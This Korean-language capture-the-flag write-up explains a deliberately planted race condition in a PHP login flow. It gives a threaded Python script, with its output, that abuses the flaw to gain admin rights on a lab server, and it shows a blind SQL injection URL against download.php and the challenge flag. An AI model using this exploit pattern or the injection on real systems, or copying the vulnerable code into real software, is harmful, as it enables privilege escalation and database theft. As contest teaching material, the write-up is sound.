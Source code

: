 BoB Web Hacking CTF 강남백반 팀 Write-Up
============
2016.08.27 강남 미림타워 BoB 센터에서 작성<br>
2016.08.31 한양대학교 ERICA 캠퍼스에서 업로드
<br><br>
[CTF 문제 파일 / 설치법](https://github.com/huna3869/hunadiary/blob/master/Uploads/bobctf/)<br>
출제도 풀이도 모두 즐거웠던 BoB Web Hacking CTF가 끝이 났습니다. 출제를 할 당시에, 많은 분들이 해킹에 능통하시기 때문에 처음에는 조금 더 복잡한 형태의 문제를 내길 바랬습니다만, 만들면 만들수록 억지스러운 방법을 요구하는 것 같아서 최대한 자연스러운 형태로 접근하기 어려운 문제를 내어보고자 하는 취지에서 간단한 Race Condition 문제를 출제 했습니다. 실제로 대회에서도 기대했던 대로 3-4팀 정도가 풀어 주셨습니다.
<br>
# 1. 의도한 취약점 : Race Condition
원래의 의도는 게시판에서는 어떠한 취약점도 발견이 되지 않도록 해서, 게시판 취약점을 찾는 것을 포기하게 하고, 로그인 부분에서 두 번의 Request가 들어가는 것, 그리고 관리자 전용 로그인 페이지와 일반 유저의 로그인 페이지가 하나의 인증을 경유한다는 점을 들어 인증 정보를 따로 보내 준다는 것을 눈치 채고 Race Condtion을 이용한다는 시나리오입니다.<br><br>
Auth.php를 보면
<pre><code>
    $query = "INSERT INTO member (id,pass,name,mail,phonenumber) VALUES ('$nick','$word','$name','$mail','$number')";

	$results = mysqli_query($db,$query);
		
	$sql = "INSERT into access (id, Auth) values ((select id from member where id='$nick'), 'TRUE');";

  	mysqli_query($db, $sql);

	mysqli_close($db);
	
</code></pre>
위와 같이 두 번의 INSERT 문을 거칩니다. 그 말은 곧, 두 쿼리문 사이에 미세한 시간의 차이가 발생한다는 의미입니다.<br><br>
그리고 관리자 로그인 페이지와 일반 로그인 페이지가 모두 거치는 인증 페이지인 login_check.php를 보면,
<pre><code>         
        $uid = $arr['id'];
      		$sql = "SELECT Auth from access where id='$uid' and Auth='TRUE';";
		$result = mysqli_query($db,$sql);
		$arr = $result->fetch_assoc();
	
		if($arr['Auth']){
		$_SESSION['user_id'] = $uid;
		echo "<script>alert(\"로그인 성공~!! $uid 님 환영합니다!\");
		location.replace('list.php');</script>";
		}

		else{
		$_SESSION['user_id'] = $uid;
		$q = "update member set role='admin' where id='$uid'";
		$result = mysqli_query($db,$q);
		echo "<script>alert(\"관리자님 환영합니다!\");
		location.replace('list.php');</script>";
		}
		
</code></pre>
Auth 인자가 True일 경우에는, 일반 사용자로 로그인이 되고, False일 경우에는 관리자 권한 재부여와 함께 관리자 페이지로 이동을 합니다. 이 때, 회원가입에서 Auth 인자가 부여되기 전에 로그인을 하면, Auth 인자는 NULL값이므로, False로 취급되어 관리자 권한을 부여받을 수 있게 되는 취약점이 있는 것입니다. 
<br><br>
저는 다음과 같은 공격 코드를 작성하여 관리자 권한을 취득 했습니다.
<pre><code>
#!/usr/bin/env python3

import requests
import string
import re
import random
import threading

url_register = "http://192.168.1.103/auth.php"
url_login = "http://192.168.1.103/login_check.php"

def register(username, password):
	data = {'nick' : username, 'word' : password,'words' : password, 'name' : 'hacker', 'mail' : 'admin@hacker.com', 'number' : '01022223333'}
	a = requests.post(url_register, data=data).content.decode('UTF-8')
	if a.find("성공") != -1:
		print("등록 성공")
	else :
		print("등록 실패")

def login(username, password):
	data = {'id' : username, 'pw' : password}
	c = requests.post(url_login, data=data).content.decode('UTF-8')
	if c.find("관리자님") != -1:
		print("관리자 아이디 : "+username+" 관리자 비밀번호 : "+password)
	else:
		print("일반 계정이 생성됨")

while True:
	username = ''.join(random.choice(string.ascii_letters) for _ in range(10))
	password = 'hacker'

	t1 = threading.Thread(target=register, args=(username, password,))
	t2 = threading.Thread(target=login, args=(username, password,))
	t1.start()
	t2.start()
	t1.join()
	t2.join()
	
</code></pre>
위 코드의 실행 결과는 다음과 같습니다.
<pre><code>
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
관리자 아이디 : doUEALiMWf 관리자 비밀번호 : hacker
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공

</code></pre>

몇 번의 시도 끝에 관리자 계정이 생성이 되고, 해당 관리자 계정을 이용해 관리자 페이지로 접근을 하면, 회원 데이터베이스를 열람할 수 있으므로, 그 곳에 있는 플래그 값인 **MoM\_NoW\_1\_Kn0W\_Wh4T\_tIM1NG\_I5**를 확인 할 수 있습니다.

# 2. 의도하지 않은 취약점 : SQL Blind Injection

게시판을 완전히 취약점 없는 상태로 만들고자 했던 저희의 바램과는 달리, 게시판에는 취약점이 있었는데, 그것이 SQL Blind Injection입니다. <br>
<pre><code>http://192.168.1.103/download.php?No=IF((1=2),178,176)</pre></code>
위와 같이, download.php의 No 인자에 SQL Blind Injection이 가능해서 DB의 대부분의 정보를 열람할 수 있습니다.<br>
간단한 스크립트를 이용하면 플래그를 알아내는 것도 시간 문제였을 것입니다. <br>
저희의 풀이는 여기까지입니다. 저는 게시판 개발자를 죽이러 가야해서 여기서 그만 줄이겠습니다. 감사합니다.